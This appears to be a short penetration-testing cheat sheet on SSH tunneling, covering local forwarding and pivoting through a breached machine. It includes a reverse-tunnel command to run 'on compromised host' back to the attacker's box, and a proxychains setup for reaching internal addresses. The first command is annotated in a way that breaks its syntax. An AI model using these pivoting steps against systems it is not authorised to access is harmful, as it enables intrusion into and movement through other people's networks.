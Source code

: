 # SSH tunneling

## SSH tunneling <a id="ssh-tunneling"></a>

`ssh -l user -p port -N(dont execute remote cmd) -L:8000:127.0.0.1:64297 10.4.4.63(remote_ip)`

### SSH reverse tunnel \(ie for irc\)

`ssh -L localhost_PORT:irc.freenode.net:6667 user@owned_server`

`ssh -L 9001:127.0.0.1:8082 polo@server`

then

`irssi -c localhost -p localhost_PORT`

### Dynamic port Forwarding

* On compromised host :

```text
ssh -f -N -R 2222:127.0.0.1 b3v1l@MYBOX
```

* Then, on attacker machine:

```text
ssh -f -N -D 127.0.0.1:1028 -p 2222 user@127.0.0.1
```

* Then configure proxychains.conf

`root@kali:~/ proxychains ssh 10.1.1.1`  
ProxyChains-3.1 \([http://proxychains.sf.net](http://proxychains.sf.net/)\)  
\|S-chain\|-&lt;&gt;-127.0.0.1:1028-&lt;&gt;&lt;&gt;-10.1.1.1:22-&lt;&gt;&lt;&gt;-OK

